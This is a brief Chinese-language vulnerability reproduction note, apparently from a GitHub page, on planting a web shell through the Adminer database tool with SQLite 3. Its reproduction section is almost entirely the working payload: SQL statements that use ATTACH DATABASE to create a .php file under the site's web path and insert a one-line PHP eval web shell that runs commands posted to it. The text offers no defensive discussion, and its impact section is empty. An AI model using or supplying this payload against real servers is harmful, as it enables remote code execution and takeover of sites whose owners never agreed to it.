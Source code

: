 <h1>Adminers 1.1.3 （SQLite 3 写入一句话木马）</h1>
<h2>一、漏洞简介</h2>
<p>需要登陆Adminers，并且需要知道网站的路径。</p>
<h2>二、漏洞影响</h2>
<h2>三、复现过程</h2>
<pre><code>ATTACH DATABASE 'z.php' AS t;create TABLE t.e (d text);/*

ATTACH DATABASE '/网站/路径/shell.php' AS t;insert INTO t.e (d) VALUES ('&lt;?php eval($_POST[a])?&gt;');/*
</code></pre>
